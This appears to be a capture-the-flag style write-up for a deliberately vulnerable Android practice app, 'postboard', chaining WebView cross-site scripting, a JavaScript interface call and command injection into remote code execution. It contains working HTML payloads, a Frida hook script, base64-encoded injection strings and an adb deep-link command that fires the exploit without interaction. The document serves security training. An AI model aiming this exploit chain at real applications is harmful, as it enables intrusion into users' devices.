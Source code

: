 # Analysis
1. We open the `MainActivity` and found the application is called `setupWebView` and `handleIntent`.
    ![MainActivity](images/main%20activity.png)

2. Function `setupWebView` it's add Javascript Interface using class `WebAppInterface`, which allowed user to call function inside class `WebAppInterface` from webview.
    ![setupWebView](images/setupwebview.png)

3. Function `handleIntent` is required intent with action "android.intent.action.VIEW" and scheme equals to "postboard" and the host is equals to "postmessage" and it get the path that later base64 decoded and will replace `'` with an empty string. Which we can say that we need to input our message as path and base64 encoded, later will used to call function `postMarkdownMessage` in class `WebAppInterface`.
    ![handleIntent](images/handleIntent.png)

4. Class `WebAppInterface` handled our message in current stated and not saved.
    ![WebAppInterface](images/webAppInterface.png)

5. Function `postMarkdownMessage` is handle message that we input from the app.
    ![postMarkdownMessage](images/postMarkdownMessage.png)

6. Function `postCowsayMessage` is call function `runCowsay` inside class `CowsayUtil`.
    ![postCowsayMessage](images/postCowsayMessage.png)

7. Function `runCowsay` is execute command system that vulnlerable to command injection and allow user to execute malicious command, because the user able to escape the command execution.
    ![runCowsay](images/runCowsay%20vuln%20code.png)

8. The function `postMarkdownMessage` and `clearCache` from class `WebAppInterface` is being called inside `assets/index.html`, but vulnerable function is only called by function `postCowsayMessage` and this function is not called in webview.
    ![indexhtml](images/index%20html.png)

9. Based on our analysis, we need to find a way to achieve Cross-Site Scripting within the WebView and invoke the postCowsayMessage function with the precise argument to gained RCE.

# Exploitation

1. Run the application, and input `<h1>testing</h1>`.
    ![enum input](images/test%20input1%20result.png)

2. We used chrome inspect for debugging by access `chrome:inspect#devices` in chrome browser and inspect the webview in `com.mobilehackinglab.postboard`.
    ![chrome debug](images/chrome%20inspect%20debug.png)
    ![chrome inspect](images/test%20input1%20result%20debug.png)

3. We able to do html injection, now we try to call `console.log` from html injection with tag "button".
```html
<button onclick=console.log(1337)>HTML Injection</button>
```
    ![console log](images/console%20log.png)
    ![console log inspect](images/console%20log%20result.png)
    ![console log debug](images/console%20log%20result%20debug.png)

4. We able to Cross-Site Scripting, now need to call `postCowsayMessage` from Cross-Site Scripting, but the `postCowsayMessage` is not called in the html, but we know the java function interface is being called with `window.WebAppInterface.<function name>`, we can check this with chrome debug console.
    ![chrome console WebAppInterface](images/webappinterface%20function%20console.png)

5. We know function `postCowsayMessage` is possible to be called, we can use `window.WebAppInterface.postCowsayMessage` to called it, update the tag button to call this function when we pressed it.
```html
<button onclick=window.WebAppInterface.postCowsayMessage() >HTML Injection</button>
```

6. To check our argument that being used to call `runCowsay`, we make frida hook function and print out the argument.
```js
Java.perform(() => {

    let WebAppInterface = Java.use("com.mobilehackinglab.postboard.WebAppInterface");
    WebAppInterface["postMarkdownMessage"].implementation = function (markdownMessage) {
        console.log(`WebAppInterface.postMarkdownMessage is called: markdownMessage=${markdownMessage}`);
        this["postMarkdownMessage"](markdownMessage);
    };

    WebAppInterface["postCowsayMessage"].implementation = function (cowsayMessage) {
        console.log(`WebAppInterface.postCowsayMessage is called: cowsayMessage=${cowsayMessage}`);
        this["postCowsayMessage"](cowsayMessage);
    };

    let Companion = Java.use("CowsayUtil$Companion");
    Companion["runCowsay"].implementation = function (message) {
        console.log(`Companion.runCowsay is called: message=${message}`);
        let result = this["runCowsay"](message);
        console.log(`Companion.runCowsay result=${result}`);
        return result;
    };
})
```

7. Now we used tag `iframe` to make it load the `postCowsayMessage` without any interaction and add argument also to escape the command execution, to execute our malicious command.
```html
<iframe onload=window.WebAppInterface.postCowsayMessage("test; touch /data/data/com.mobilehackinglab.postboard/files/rce.txt") />
```

8. The frida script is only called function `postMarkdownMessage` and not called `cowsayMessage` or `runCowsay` and we check in chrome debug, our payload is got escaped by space.
    ![postCowsayMessage called](images/fail%20iframe%20command1.png)
    ![postCowsayMessage debug](images/fail%20iframe%20command1%20reason.png)

9. Then we also try to base64 encoded the argument.
```html
<iframe onload=window.WebAppInterface.postCowsayMessage(atob("aWQ7IHRvdWNoIC9kYXRhL2RhdGEvY29tLm1vYmlsZWhhY2tpbmdsYWIucG9zdGJvYXJkL2ZpbGVzL3JjZS50eHQgIw==")) />
```
    ![success iframe 1](images/iframe%20command2.png)
    ![success rce1](images/success%20rce1.png)

10. We successfully doing command injection, now we can used `am` to trigger `Intent` to make it zero-click or no interaction at all in the vulnerable app.
    ![python code](images/generate%20am%20payload.png)
```sh
adb shell am start -a android.intent.action.VIEW -d "postboard://postmessage/PGlmcmFtZSBvbmxvYWQ9d2luZG93LldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZShhdG9iKCJhV1E3SUhSdmRXTm9JQzlrWVhSaEwyUmhkR0V2WTI5dExtMXZZbWxzWldoaFkydHBibWRzWVdJdWNHOXpkR0p2WVhKa0wyWnBiR1Z6TDJsdVpYSnphVzRnSXc9PSIpKSAvPg=="
```
    ![success rce 2](images/success%20rce2%20zero-click.png)

11. We successfully gained RCE.
    ![success rce zero-click](images/success%20rce2%20zero-click%20result.png)